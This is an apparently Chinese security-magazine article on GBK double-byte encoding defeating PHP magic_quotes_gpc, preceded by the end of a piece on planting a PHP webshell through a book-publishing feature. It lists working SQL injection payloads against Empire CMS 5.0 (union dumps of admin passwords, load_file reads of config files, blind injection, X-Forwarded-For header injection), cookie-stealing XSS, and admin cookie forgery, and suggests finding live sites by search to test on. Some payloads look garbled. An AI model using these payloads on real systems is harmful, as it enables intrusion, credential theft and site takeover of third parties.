





```

这里的 `addslashes` 的影响我们可以绕过，只要不写入带有敏感符号的代码就可以了。简单一点，我们可以直接写一句话木马，或者写个 `include($a)` 制造文件包含漏洞都是可以的。下面我们来测试一下。

首先注册一个用户，在连载管理部分发布一本图书。如图1和图2所示。然后选择增加图书，章节内容填为 PHP 代码，我这里写的是“phpinfo();”。注意，后面一定要有分号，如图3所示。
至于 WebShell 的路径，我们可以这样得到，比如你发布的章节序列 `cid=1`，WebShell 就为 `/data/textdata/1/bk1.php`；发布的章节序列 `cid=2`，WebShell 就为 `/data/textdata/1/bk2.php`。依此类推，我发布的章节 `cid=14`，则 WebShell 地址应该为 `/data/textdata/1/bk14.php`。访问一下，代码成功执行了，如图4所示。
当然，网站如果没有设置图书发布栏目的话，是不能成功发布图书的，但我们可以将那个发布页面保存到本地，将 `catid` 修改为 1，然后再操作，成功率还是很高的。

好了，就写到这里吧，对此感兴趣的读者，可以自行测试一下看看是否如此。最后，欢迎大家登录黑防论坛和我交流。

前置知识：PHP

关键词：双字节编码、转义符、合并编码、正则表达式

## 双字节编码：PHP 的隐形杀手
文/图 Ccshl

PHP。PHP 是一种嵌入 HTML 页面中的脚本语言，由于它具有良好的可移植性、较高的执行效率，以及简单的语法和丰富的函数，成为目前编写小型网站系统的主流语言。在安全方面，接触过 PHP 的人都知道，可以通过配置文件 php.ini 进行详细的设置，比如设置“magic_quotes_gpc=on”就可以将 GET/POST/Cookie 中的敏感字符（单引号、双引号、反斜杠等）使用反斜杠“\”进行转义，进而可以防范 SQL 注入——看到这，想必大家是一致认同的——因为这是写入 PHP 手册中，并且被各种教材互相转引的。但是当你读完此文后，这种观点将会发生改变！而且这将成为 PHP 致命的隐形杀手。本文将以国内被誉为“万能建站工具”，且以安全、强大、稳定、灵活著称的帝国内容管理系统（ECMS）为例，向读者揭示 PHP 这一致命伤。

双字节编码。这里我们只简单提及汉字的 GBK 编码，至于“字符编码”的概念就复杂得多，网络中也不乏这方面的优秀文章，感兴趣的读者自己搜索研读。汉字的 GBK 编码是 GB2312 的扩展，扩展了对繁体中文字符的支持，一个汉字用两个字节来表示，其首字节对应 0x81-0xFE，尾字节对应 0x40-0xFE（除掉 0x7F），请注意这个尾字节范围——正好涵盖了反斜杠“\”对应的 ASCII 码值“0x5C”。当我们提交 0x81-0xFE 范围的字符后，与“0x5C”字符会被合并编码为一个完整的汉字，原本用来转义敏感字符的反斜杠被“非法利用”了！具体实现过程此处暂且不表，后面会详细地向大家展示这个“非法过程”。

ECMS。帝国内容管理系统（以下简称帝国 CMS），最新版本 5.0，下载链接：http://www.phome.net/ecms5，运行环境 Apache+PHP+MySQL+ZendOptimizer，可以直接下载“一键安装包（ECMS+运行环境）”，解压缩后根据说明安装。需要注意的是，Apache 默认使用 80 端口，所以必须确认该端口没有被其他程序使用，如 IIS、迅雷（Web 迅雷竟然默认使用 80 端口！）等，安装后即可使用“http://localhost”或“http://127.0.0.1”访问，本文使用后者。

其实帝国 CMS 的代码编写得相当专业，然而智者千虑必有一失，而且这次帝国好像不止“一失”，但这不是我们所关注的，我们真正的目的是安全技术的提高——尤其是国内安全技术的进一步提升！本文所涉及的问题是必须注意和解决的，正所谓“前车之鉴，后事之师”。

### Magic_quotes_gpc 与双字节编码

现在我们详细地讲述一下双字节编码对 PHP 的严重影响。为了测试方便，我们首先在网站根目录下新建文件“test.php”，文件内容如下：

```php
<?PHP
header("content-type:text/html; charset=gb2312");
$_GET=$_GET['str'];
$Sql="select * from Table where username='".$_GET."'";
echo "[Magic_quotes_gpc转义启用<br>]";
echo "$_GET 的字符：".$_GET."<br>";
echo "插入Sql语句：".$Sql;
?>
```

然后确认 php.ini 的 Magic_quotes_gpc 已经开启，即值为 “on” 或 “1”。提交 `str` 变量，汉字型的必须使用 GBK 编码，比如“中”为 “D6D0”，提交形式为 `%D6%D0`。PHP 接收到变量后会根据 `Default_Charset` 或 `header("content-type:text/html; charset=gb2312")` 等设置进行编码。

```text
header("content-type:text/html; charset=gb2312")
default_charset=gb2312
AddDefaultCharset=gb2312
<META http-equiv="content-type" content="text/html; charset=gb2312">



```

至于汉字的 utf-8 编码可以通过搜索获得，gb2312 编码也可查询。前面谈到提交的高位字符可与 `0x5C` 合并编码为完整汉字，由于可使用 `%xx` 形式表示字符，若提交 `%d5'`（或 `%27`）并经 `$_GET` 接收，在特定编码与转义条件下会形成可利用的注入点。

由于开启了 Magic_quotes_gpc，单引号会被转义，整个字符串可能变为 `%d5\'`。又因为 `\` 的编码与双字节编码合并，`%d5%5c` 在 GBK 下可被解释为汉字（如“誠”），从而使转义符被“吃掉”。若此时把该字符串不过滤直接引入 SQL 语句，就会产生注入点，如图1所示。
图1

从上面的分析可以看出，对于双字节编码而言，仅依靠 PHP 的 Magic_quotes_gpc 是不行的，等于没有过滤变量。下面以帝国 CMS 为目标，从 GET/POST/COOKIE 三种变量获取方式来验证该问题的严重性。若进一步对字符型变量进行过滤（替换），如使用自定义函数 `RepPostVar()`，并对数字型变量使用 `intval(int)` 限制，才可能基本杜绝注入。

- 1. `$_GET`

漏洞1：`e/member/list/index.php`

漏洞描述：`$keyboard` 变量未过滤导致注入。尽管同时使用了 `stripSlashes` 和 `addSlashes`，但其作用与 Magic_quotes_gpc 类似，仍可被绕过，进而可通过 `union` 获取管理员信息，或用 `load_file` 读取文件内容（`/EmpireServer` 目录）。

漏洞分析：文件的主要代码如下。

```php
$sear=$_GET['sear'];
if($sear){
    // 为了能利用提交的变量 $keyboard，要求 $sear 非空
    $keyboard=addslashes(stripSlashes($_GET['keyboard']));

    // 程序先用 stripSlashes 去掉 GET 特殊字符，再用 addslashes 转义
    if($keyboard){
        $add=$where.$user_username." like '%$keyboard%'";
        $search.="&sear=1&keyboard=$keyboard";
    }

    $totalnum=(int)$_GET['totalnum'];
    if(empty($totalnum)){
        $totalquery="select count(*) as total from {$user_tablename} $add";
        $num=$empire->gettotal($totalquery);
    }else{$num=$totalnum;}

    $search.="&totalnum=$num";
    $query="select $user_userid,$user_username,$user_email,$user_registertime from {$user_tablename} $add";
    $query=$query." order by ".$user_userid." desc limit $offset,$line";
    $sql=$empire->query($query);
}



```

从这段代码我们可以得出以下几点。

第一，提交时“sear”和“totalnum”两个变量必须非空，如 `sear=1&totalnum=1`。

第二，`addSlashes` 函数对已构成注入的字符串没有实质性影响，更多是二次转义；示例中对 `%d5`、`\`、`'` 的处理不会阻止注入构造。变量的正负一样，所以我们提交“%d5”和提交“诫”的注入效果是完全相同的。可以使用任何低 8 位为 `5c` 的字符构造注入点（如某些 GBK 双字节字符）。

第三，构造 `union` 语句时要求先闭合前面的单引号并注释后续语句，字段个数为 4，例如：

`诫' union select 1,2,3,4 from phome_enewsuser/*`

进一步可构造：

`诫' union select userid,username,3,password from phome_enewsuser/*`

并通过如下链接触发（文中示例）：

`http://127.0.0.1/e/member/list/?sear=1&totalnum=1&keyboard=...`
图2

表名前缀默认通常为 `phome_`，若安装时修改过，则需先确认真实表名前缀后再注入。可通过 `mysql` 相关函数与系统信息查询当前数据库与用户信息。

```sql
版本号: VERSION()
当前数据库: DATABASE()
用户: USER(), SYSTEM_USER(), SESSION_USER(), CURRENT_USER()
```

## 猜数据库名与表名

猜数据库名：

`Select * from information_schema.SCHEMATA`

`Select SCHEMA_NAME from information_schema.SCHEMATA`

猜表名：

`select table_name from information_schema.tables where table_schema=char(101,109,112,105,114,101,99,109,115) limit 1`

`select table_name from information_schema.tables where table_schema=0x656D70697265636D73 limit 1`

说明：可用 `char(...)` 或十六进制字符串替代目标库名（如 empirecms）。

注入的 union 语句如下（链接 `http://127.0.0.1/e/member/list/?sear=1&totalnum=1&keyboard=` 后），结果如图3所示。

猜解版本号、当前数据库名、当前用户名：

`' union select version(),database(),3,4,CURRENT_USER()#`

猜解表名：

`' union select 1,table_name,3,4 from information_schema.tables where table_schema=0x656D70697265636D73 limit 1/*`

`load_file()` 函数可帮助读取文件内容（如 `e/class/config.php`），可用于获得连接用户密码等。该函数需已知物理路径；相对路径通常相对 `mysql\data\数据库名`。示例中提到绝对路径如 `D:/EmpireServer/web`，并通过十六进制路径构造 `union select 1,load_file(...)` 读取配置内容。

`.../e/action/ListInfo/index.php` 注入点示例：

`...`（十六进制编码路径参数）`...,3,4 limit 1/*`

注意路径中应使用斜杠 `/`，而不是反斜杠 `\`。注入后查看页面源码，可得到数据库名、用户名、用户密码、表名前缀、Cookie 前缀等关键信息。

## 漏洞2：`e/action/ListInfo/index.php`

漏洞描述与漏洞1类似，变量 `$andval` 过滤不足，注入点较隐蔽。操作路径示例：“分类信息”->“房屋信息”（或其它栏目）->“东城区”（或其它地区），如图5所示。

然后用“`%d5'`”检测，结果如图6所示，说明该页面存在注入漏洞。虽不易直接构造 union 语句，但可使用“`' or 1=1/*`”和“`' or 1=2/*`”进行手工注入，并将条件替换为布尔判断语句，例如：

`(select Ord(Mid(password,1,1)) from phome_enewsuser limit 1)>50`

由此可进行逐位推断，漏洞危害不容忽视。

图6

## 2）`$_POST`

其实 POST 方式仅仅比 GET 方式多了个“提交前将字符串进行编码”的过程，这点可以使用 WinSockExpert 观察到，此过程由浏览器自动完成。比如我们通过表单提交字符串“诚”，浏览器首先会将其转为“%d5%5c”，POST 接收数据与 GET 过程完全相同，所以 POST 字符串“诚”同样可以进行注入检测。

## 漏洞3：`e/search/index.php`

漏洞描述：由于变量直接通过 `$_POST` 获得，没有进一步过滤导致注入。

漏洞分析略，我们需要注意以下代码，在注入的字符串中需要逗号，否则将受到长度限制。

```php
$keyboard=$_POST['keyboard'];
$keyboardone=0;
if(is_array($keyboard)){
}
elseif(strstr($keyboard,',')){
  $keyboard=explode(',',$keyboard);
}
else{
  $keyboard=trim($keyboard);
  $len=strlen($keyboard);
  if($len<$public_r[min_keyboard]||$len>$public_r[max_keyboard]){
    printerror("MinKeyboard",$ecmsfrom,1);
    $keyboardone=1;
  }
}
```

此漏洞危害等级高，因为使用帝国CMS的网站基本都会保留搜索功能，而且我们在注入时根本不用考虑 `e/search/index.php` 文件，只要从网页页脚，或者打开“高级搜索”页面（`search/index.html`），就可以进行注入测试。

我们直接提交“诚”，结果如图7所示，然后根据出错提示的 SQL 语句构造出 union 注入语句“诚'))) union select password from phome_enewsuser order by total desc/*,||”。由于使用了自定义函数 `SearchDoKeyboardVar()` 过滤了空格，所以我们使用“Tab”空格来替代正常的空格（在记事本中按一次“Tab”键便可获得一个“Tab”空格），于是 union 语句成为：

图7

```sql
'诚')))	union	select	rnd	from	phome_enewsuser	order	by	total	desc/*||
```

// 注意此字符串中空格不是“Space”空格，而是由“Tab”产生的

将该语句作为内容进行搜索，结果如图8所示，直接注出管理员的 rnd 值。

图8

## 3）`$_COOKIE`

经过 `$_COOKIE` 转义的字符串同样受双字节编码的影响——转义符被非法利用！先看看自定义函数 `getcvar()` 的代码：

```php
function getcvar($var){
  global $phome_cookievarpre;
  $tvar=$phome_cookievarpre.$var;
  return $_COOKIE[$tvar];
}
```

没啥解释的，但是我们知道了 `getcvar()` 函数的作用就是读取 Cookie 的。

## 漏洞4

存在3个页面，分别为：

- `/e/member/login/loginjs.php`
- `/e/member/iframe/index.php`
- `/e/data/template/loginiframetemp.php`

漏洞描述：由于 `$myuserid` 变量没有充分过滤，导致注入。

漏洞分析：这3个页面的代码几乎完全相同，关键代码如下：

```php
$myuserid=(int)getcvar('mluserid');
if($myuserid) // 要求$myuserid变量非空，即Cookie的mluserid值非空
{
  $myusername=getcvar('mlusername');
  $myrnd=getcvar('mlrnd');
  // 直接获取Cookie的mlrnd值
  $i=$empire->fetch1("select ... from ... where ... and ... limit 1");
}
// 程序引入SQL语句时使用了引号，但是$myrnd未作过滤或转义，存在注入
```

图9

遗憾的是这几个页面均无法直接获得注出的结果，只能使用手工方式注入。以 `e/member/iframe/index.php` 为例。由于是从 Cookie 获取的变量，我们使用 JavaScript 修改 Cookie（当然还可以抓包修改再用 nc 提交）。

图10

```javascript
javascript:alert(document.cookie='ecmsmluserid=1');
alert(document.cookie='ecmsmlrnd='+escape("%d5' or (select Ord(Mid(password,1,1)) from phome_enewsuser limit 1)>50/*"));
```

需要注意的是，表单 Form 提交的资料是用 urlencode 编码后送出，而 Cookie 是用 escape 编码的。构造 Cookie 注入点时需使用“%d5'”，经 escape 后再由 `$_COOKIE` 获取形成可利用的注入语句。先执行 JavaScript 修改 Cookie，然后刷新页面完成手工注入，如图9和图10所示。

IP 的获取。帝国CMS使用自定义函数 `egetip()` 获取来自客户端的 IP 地址，代码如下：

## IP欺骗与正则表达式

接触过正则表达式的人都不会否认它的强大，然而其语法也常令人望而生畏。这里再次看到与正则表达式相关的安全问题。

```php
function egetip(){
  if(getenv('HTTP_CLIENT_IP') && strcasecmp(getenv('HTTP_CLIENT_IP'),'unknown'))
    $ip=getenv('HTTP_CLIENT_IP');
  else if(getenv('HTTP_X_FORWARDED_FOR') && strcasecmp(getenv('HTTP_X_FORWARDED_FOR'),'unknown'))
    $ip=getenv('HTTP_X_FORWARDED_FOR');
  else if(getenv('REMOTE_ADDR') && strcasecmp(getenv('REMOTE_ADDR'),'unknown'))
    $ip=getenv('REMOTE_ADDR');
  else if(isset($_SERVER['REMOTE_ADDR']) && $_SERVER['REMOTE_ADDR'] && strcasecmp($_SERVER['REMOTE_ADDR'],'unknown'))
    $ip=$_SERVER['REMOTE_ADDR'];
  return preg_replace("/[^\d\.]/", "", $ip);
}
```

这段代码中，`getenv()` 用于取得环境变量内容，涉及 `HTTP_CLIENT_IP`、`HTTP_X_FORWARDED_FOR`、`REMOTE_ADDR` 等变量。若是 `HTTP_***` 形式的环境变量，一般都可以被伪造。

在抓到的数据包中插入“***,xxxxx”方式进行伪造，比如 `HTTP_X_FORWARDED_FOR` 就可以在数据包中插入 `X_FORWARDED_FOR:123.345.567.789` 伪造客户端提交的 IP 地址。我们重点分析最后一行。

其实问题的根源在于使用了 `preg_replace()` 函数！下面是比较权威的中文手册对该函数的定义：

> 定义：`mixed preg_replace ( mixed $pattern , mixed $replacement , mixed $subject [, int $limit ] )`

说明：

- 在 subject 中搜索 pattern 模式的匹配项并替换为 replacement。
- replacement 可以包含反向引用（如 `\n` / `$n`）。
- 如果搜索到匹配项则返回替换后的 subject，否则返回原来的 subject。

请注意第3条！即当在 `$ip` 中没有搜索到匹配项时，`egetip()` 函数将直接返回 `$ip`！现在我们分析正则表达式的含义：

- `^([\d\.]+).*`：表示匹配以至少1个数字或圆点开始的文本。
- `\1`：表示第1个括号内子模式匹配到的文本。
- 若 `$ip` 不满足“以数字或圆点开头”，`preg_replace()` 不替换并原样返回。

例如：`111xxx` 会被替换为 `111`；`11..xxx` 会被替换为 `11..`；而 `xxx1.1.xxx` 不满足起始条件，会原样返回。由此可以构造注入语句；即使去掉正则中的 `^`，`xxx1.1.xxx` 也会返回 `xxx1.1.`，后续 `xxx` 被过滤后仍可能构造注入。

从上面的分析我们可以得出结论：只要不是以数字或圆点开头的文本，`preg_replace()` 函数将不作替换，原样返回文本——“畸形但灵活”的过滤，这正是下面注入的依据。

## 1）update语句

## 漏洞5：`/e/public/digg/index.php`

漏洞描述：在“顶”新闻页面时，未过滤从客户端获得的 IP 地址，从而导致注入。

漏洞分析略。随便打开一个新闻页面，在页面下方存在一个“来顶一下”的按钮。我们仅分析与 `$ip` 变量有关的代码。

```php
$ip=egetip();
$ipr=$empire->fetch1("select classid,ips from {$dbtbpre}enewsdiggips where classid='$classid' and id='$id' limit 1");
if(strstr($ipr['ips'],','.$ip.',')) {
    $doajax==1?ajax_printerror():printerror('ReDigg');
} else {
    if(empty($ipr['classid'])) {
        $newips=','.$ip.',';
        $usql=$empire->query("insert into {$dbtbpre}enewsdiggips(id,classid,ips) values($id,$classid,'$newips');");
    } else {
        $newips=$ipr['ips'].$ip.',';
        $usql=$empire->query("update {$dbtbpre}enewsdiggips set ips='$newips' where classid='$classid' and id='$id' limit 1");
    }
}
```

现在自己先“顶”一下，用 WinSockExpert 抓取点击该按钮后的 GET 数据，于是当再次“顶”该新闻时就进入 update 语句，伪造 `X_FORWARDED_FOR:` 的值，如下：

```text
X_FORWARDED_FOR: ',ips=(select rnd from phome_enewsuser)/*
```

用 nc 提交后，返回类似“diggnum|2”的字符串说明提交成功，再在 `X_FORWARDED_FOR` 值中随意插入一个单引号，目的是使 update 语句出错。提交结果如图11所示。

图11

将注入抓到的数据包中，使用 NC 提交，如图12所示。

图12

## 2）insert语句

## 漏洞6：`/e/enews/plfun.php`

漏洞描述：该文件中 `AddPl()` 函数获取 IP 地址的变量 `$sayip` 未过滤导致注入。

漏洞分析：当提交给 `/e/enews/index.php` 页面的参数 `enews` 为 `AddPl` 时，调用 `/e/enews/plfun.php` 文件中的 `AddPl()` 函数，关键代码如下：

```php
$sayip=egetip();
$username=htmlspecialchars($username);
$saytext=nl2br(str_replace(" ","&nbsp;&nbsp;",htmlspecialchars($saytext)));
...
$saytext=ReplacePlWord($saytext);
// 决定能否跨站
if($class_r[$classid][checkpl]){$checked=1;}
else{$checked=0;}
$sql=$empire->query("insert into {$dbtbpre}enewspl
(username,sayip,saytext,saytime,id,classid,checked,zcnum,
fdnum,userid,isgood) values('".$username."','".$sayip."',"
.addslashes($saytext)."','".$saytime."',".$id.",".$classid.",".$checked.",0,
0,".$muserid.",0);");
```

于是伪造 `X_FORWARDED_FOR` 注入语句如下：

```sql
X_FORWARDED_FOR',(select concat('用户名:','<?php
/*',username,':',password,':',rnd,'\r\n?>') from
phome_enewsuser)0,72),35,0,0,1,0)/*
```

说明：子查询必须使用“( )”；使用 `concat()` 函数连接“`<?php  /*`”注出结果、“`\r\n?>`”等多个字符串，达到隐藏注出内容的作用；其中的 35、72 必须是真实存在的新闻 classid 和 id 值，这可以通过查看新闻页面源码或者抓包获得。

然后将上面伪造的 `X_FORWARDED_FOR` 值插入抓到的数据包中，使用 NC 提交，如图12所示。

之后我们查看该新闻的所有评论页面的源码，便可以得到我们隐藏起来的注出结果，比如用户名、密码、rnd等，如图13所示。

图13

既然可以插入“`<?php ?>`”，那么我们再试试跨站！伪造读取页面 Cookie 的 `X_FORWARDED_FOR` 如下。当 NC 提交返回“增加评论成功”后，查看该新闻评论，如图14所示，跨站成功。说明在发表评论处利用伪造 `X_FORWARDED_FOR` 进行 IP 欺骗不仅可以进行注入，而且还可以进行跨站！详细的利用和分析略。

图14

```sql
'X_FORWARDED_FOR:';(select concat('<script>alert(document.cookie)</script>','<?php /*',username,':',password,':',rnd,'\r\n?>') from phome_enewsuser),0,72,35,0,0,0,0)
```

## 毁灭与排马

漏洞的威胁主要有管理员密码被盗、网站后台被非法登录，更严重的是网站被挂马、服务器被控制等。下面我们分析这些漏洞对帝国CMS的威胁。从如下代码可以看出，帝国CMS采用的是 Cookie 验证登录，所以我们就不必破解 MD5 码，以下涉及的漏洞均要求通过后台认证。

```php
$logininid=getcvar('loginuserid');
$loginin=getcvar('loginusername');
$loginrnd=getcvar('loginrnd');
$loginlevel=getcvar('loginlevel');
is_login($logininid,$loginin,$loginrnd);




```

## 1）Cookie 欺骗

首先从 `e/admin/admin.php` 文件不难看出，Cookie 欺骗必须包含如下 Cookie 项。`is_login()` 需要 `loginusername`、`loginrnd`，`CheckLevel()` 需要 `loginuserid`，分别对应 `phome_enewsuser` 表中的 `username`、`rnd`、`userid` 字段，后台风格需要 `loginadminstyleid`，默认为“1”。我们利用漏洞3获取这些值，因为 4.7 和 5.0 版本均存在这个漏洞，比较普遍。虽然在首页没有“搜索”栏目，但在网址后直接加 `search` 即可打开“高级搜索”页面，搜索我们构造的注入字符串，便可注出官方网站管理员的 `rnd` 值，如图15所示。需要注意的是，每当管理员正常登录退出后，`rnd` 值都会改变，所以此值只在管理员再次登录前有效。
依次注出 `userid`、`username`、`rnd`（可以试试注出 `password` 进行破解）。最后需要确定 Cookie 前缀。

然后可以使用 `javascript:alert(document.cookie);` 语句查看 `e/admin/index.php` 页面的 Cookie。由于帝国官方修改了默认的后台地址，所以可从百度搜索“Powered by EmpireCMS”或者帝国用户网站展示平台（http://www.phome.net/EmpireCMS/UserSite/）中选择一个进行测试。

- 1. 从网站根目录的 `robots.txt` 文件可以得出是帝国CMS 5.0，如图16所示，而且没有修改管理员目录。
- 2. 页面 `e/member/list/index.php` 存在，利用漏洞1注出 `password` 没有破解出来，所以必须进行 Cookie 欺骗。
- 3. 确定 Cookie 前缀为默认的 `ecms`。
- 4. 用注出的 `userid`、`username`、`rnd` 修改下面的 JavaScript 语句，然后在 IE 地址栏中执行。修改后的 Cookie 如图18所示。
```javascript
javascript:alert(document.cookie="ecmsloginuserid=xx");
alert(document.cookie="ecmsloginusername=xx");
alert(document.cookie="ecmsloginrnd=xx");
